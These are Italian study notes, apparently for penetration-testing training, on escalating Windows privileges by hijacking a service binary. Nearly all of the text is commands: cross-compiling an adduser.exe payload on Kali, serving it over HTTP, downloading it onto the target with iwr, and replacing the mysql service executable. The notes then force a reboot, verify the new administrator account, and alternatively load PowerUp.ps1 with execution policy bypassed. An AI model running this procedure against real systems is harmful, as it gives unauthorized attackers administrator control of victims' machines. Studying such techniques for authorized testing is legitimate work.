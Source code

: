 Compilazione del file su kali e trasferimento su windows:

```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe

python3 -m http.server 80

iwr -uri http://$MIO_IP/adduser.exe -Outfile adduser.exe
move C:\..\path_del_file_con_privilegi_elevati\nomefile.exe nomefile.exe
move .\adduser.exe C:\..\path_del_file_con_privilegi_elevati\nomefile.exe
net stop mysql

.\adduser.exe
```

Nel caso di mysql, potremmo non avere i permessi per stoppare il servizio in esecuzione. Per cercare di bypassare questo problema potremmo verificare se il  _Startup Type_ del servizio è impostato su Auto. In questo caso potremmo essere in grado di far ripartire il servizio facendo un reboot del sistema.

```bash
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
```

Per capire se si può eseguire il reboot (_SeShutDownPrivilege_):

```bash
whoami /priv
```

If the SeShutdownPrivilege privilege was not present, we would have to wait for the victim to manually start the service, which would be much less convenient.


Nel caso non avessimo i privilegi per eseguire il reboot possiamo procedere in due modi:
- aspettiamo che il servizio venga riavviato da altri
- oppure eseguire uno shutdown (SOLO IN CASI ESTREMI)

```bash
shutdown /r /t 0
```

Dopo il riavvio per controllare se è stato aggiunto il nuovo utente:

```bash
Get-LocalGroupMember administrators
```

Se l'utente è in questo gruppo l'attacco ha avuto successo e successivamente possono essere utilizzati tool come _RunAs_ o _msfvenom_ per ottenere una shell per il nuovo utente.

```bash
runas /user:nuovoutente cmd
```

IN ALTERNATIVA A TUTTO QUELLO APPENA FATTO SI POTREBBE UTILIZZARE _PowerUp.ps1_ :

```bash
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .

python3 -m http.server 80

iwr -uri http://$MIO_IP/PowerUp.ps1 -Outfile PowerUp.ps1

powershell -ep bypass

. .\PowerUp.ps1

Get-ModifiableServiceFile
```
